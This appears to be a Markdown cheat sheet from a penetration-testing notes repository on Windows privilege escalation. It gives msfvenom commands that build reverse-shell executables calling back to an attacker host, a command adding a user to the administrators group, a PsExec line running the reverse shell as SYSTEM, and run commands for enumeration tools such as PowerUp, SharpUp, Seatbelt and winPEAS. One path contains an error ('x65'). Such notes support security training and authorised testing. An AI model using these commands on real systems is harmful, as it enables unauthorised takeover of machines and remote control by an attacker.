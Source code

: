 # Windows Privilege Escalation
* [General tips](#General-tips)
* [Tools](#Tools)
* [Manual Enumeration](#Manual-Enumeration)
* [Privilege escalation techniques](#Privilege-escalation-techniques)

## General tips
- Windows check if Windows Scheduler is running (```tasklist```)
  - Go to C:\Program files (x65)\SystemScheduler\Events and check the logs to see if anything is running every x minutes.
  - Check if we got write permissions
- Administrative command execution tips
  - Use msfvenom for shells if we can execute something with admin privileges
     - ```msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe```
     - ```msfvenom -p windows/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe -o reverse.exe```
  - RDP
     - ```net localgroup administrators <username> /add```
  - Admin --> System
    - ```.\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe```
    - https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

## Tools
#### Powerup & SharpUp
- https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1
- https://github.com/GhostPack/SharpUp

```
powershell.exe
. ./PowerUp.ps1
Invoke-Allchecks
```

```
.\SharpUp.exe
```

#### Seatbelt
https://github.com/GhostPack/Seatbelt

```
./seatbelt.exe all
```

#### winPEAS
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

```
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
.\winPEASany.exe quiet cmd fast
.\winPEASany.exe
```
